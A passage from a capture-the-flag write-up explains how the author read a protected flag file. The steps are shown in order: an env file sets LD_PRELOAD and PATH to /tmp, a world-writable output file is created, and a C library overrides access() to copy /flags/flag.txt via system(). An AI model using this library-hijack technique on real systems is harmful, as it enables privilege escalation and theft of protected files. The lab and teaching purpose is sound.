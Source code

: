 - After analyzing the files that are in the home folder, we realized by reading the main.c file that there is a file that is accessed regularly on the server and that could contain information about the flag, the flag.txt file.

![main.c](image-14.png)

Fig 13. File main.c

- Therefore, we decided to carry out the command “echo 'LD_PRELOAD=/tmp/lib PATH=/tmp' > env”. This command creates a file called "env" in the current directory with the content "LD_PRELOAD=/tmp/lib PATH=/tmp". It defines environment variables that will affect how programs run.

- Then "cd /tmp". This command changes the current directory to "/tmp". It is the temporary directory, where you will perform subsequent operations.

- After "touch file.txt". This command creates a file called "file.txt" in the current directory "/tmp". The file is created empty. 

- Further “chmod 777 file.txt”. This command sets full permissions (read, write and execute) for the file "file.txt". This allows any user on the system to access and modify the file.

```
echo '
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int access (const char* path, int mode)
{
    system("/bin/cat /flags/flag.txt > /tmp/file.txt");
    return 0;
}' > lib.c
```
